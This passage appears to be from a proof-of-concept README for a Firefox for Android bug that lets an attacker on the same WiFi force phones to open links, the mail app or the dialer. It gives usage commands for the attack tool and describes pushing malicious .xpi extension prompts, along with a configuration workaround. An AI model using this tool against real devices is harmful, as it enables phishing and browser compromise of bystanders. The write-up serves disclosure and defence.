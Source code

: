 ```
# Replace "wlan0" with the wireless device on your attacking machine.
python3 ./ffssdp.py wlan0 -t "intent://example.com/#Intent;scheme=http;package=org.mozilla.firefox;end"
```

Firefox on the mobile device should go to http://example.com within a few seconds, and you'll see some logging in the attack tool as well.

Another example is to call other applications. Running the attack tool like this will pop the mail application with arbitrary text. Pretty scary to have happen on your device when you're just minding your own business:

```
# Replace "wlan0" with the wireless device on your attacking machine.
python3 ./ffssdp.py wlps0 -t "mailto:itpeeps@work.com?subject=I've%20been%20hacked&body=OH%20NOES!!!"
```

And one more, just for testing purposes. This will just pop the dialer:

```
# Replace "wlan0" with the wireless device on your attacking machine.
python3 ./ffssdp.py wlan0 -t "tel://1337h825012"
```

## 💀 Impact

This is not some super fancy memory-corruption bug that can be invoked from across the planet. It's a pretty straight-forward logic bug that basically allows you to magically click links on other peoples' phones who are in the same building as you.

The vulnerability resembles RCE (remote command execution) in that a remote (on same WiFi network) attacker can trigger the device to perform unauthorized functions with zero interaction from the end user. However, that execution is not totally arbitrary in that it can only call predefined application intents.

Had it been used in the wild, it could have targeted known-vulnerable intents in other applications. Or, it could have been used in a way similar to phishing attacks where a malicious site is forced onto the target without their knowledge in the hopes they would enter some sensitive info or agree to install a malicious application. The exploit POC can direct-link to a `.xpi` file, prompting for immediate installation of a malicious extention to compromise the browser itself.

The POC code is persistent, in that it will trigger the intent over and over until stopped. This increases the chances of someone agreeing to install a malicious package as the prompt will pop up over and over until the attacker stops running the tool.

With mobile apps, it is possible that many people remain on outdated versions for an extended period of time. This is due to the default setting of applications updating only when connected to WiFi, and the fact that some may only rarely (or never) connect to a WiFi network. Fortunately, this bug is exploitable only over WiFi, so those that cannot connect to update can also not be targeted. There is also a workaround for those who cannot update whatever reason, and that is to set `browser.casting.enabled` to `false` in `about:config`.

As a final thought, this most definitely could have been an epic rick roll,
<br>where everyone in the room running Firefox tried to figure out what the heck was going on.

## 🌎 Contact me  

For Queries: [My Instagram Profile](https://www.instagram.com/utsanjan/)  
[Check Out My YouTube Channel](https://www.youtube.com/DopeSatan)
